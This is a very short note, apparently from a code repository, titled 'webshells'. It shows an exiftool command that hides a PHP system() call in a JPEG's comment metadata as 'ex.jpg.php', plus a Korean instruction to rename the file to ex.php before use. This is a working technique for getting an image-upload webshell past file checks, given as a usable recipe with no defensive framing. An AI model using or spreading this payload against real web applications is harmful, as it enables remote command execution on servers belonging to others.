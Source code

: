 # webshells

1. ex.jpg.php<br>
exiftool -Comment='<?php system("ls"); ?>' ex.jpg
사용할때는 ex.php로 바꿔서 사용
